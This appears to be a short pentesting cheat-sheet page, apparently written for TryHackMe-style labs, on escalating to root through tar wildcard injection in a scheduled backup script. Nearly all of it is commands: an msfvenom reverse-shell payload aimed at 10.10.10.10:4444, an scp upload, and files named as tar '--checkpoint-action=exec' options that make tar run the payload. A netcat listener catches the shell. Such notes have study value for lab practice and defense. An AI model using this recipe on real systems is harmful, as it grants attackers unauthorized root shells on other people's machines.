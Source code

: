 ```yaml
---
description: like * in file naming
---
```


# Wildcards

when you have \* in scheduling, you can add a file along the main file in schedule. to do that, first consider this scenario:

```bash
user@debian:~$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

so you can put the files you want to run as sudo in this directory.&#x20;

so you make a ELF reverse shell for the target machine

{% code overflow="wrap" %}
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```
{% endcode %}

then you have to `scp` the file in the target machine :&#x20;

```bash
scp <TARGET-FILE> user@<IP-ADDRESS>:/ADDRESS/TO/UPLOAD

# for the VM on THM you have to add this flag probably : -oHostKeyAlgorithms=+ssh-rsa
```

then you give the access and run two commands :&#x20;

```bash
chmod +x /home/user/shell.elf

touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

now all you have to do is to listen for a call on the selected port&#x20;

```bash
nc -nvlp 4444
```
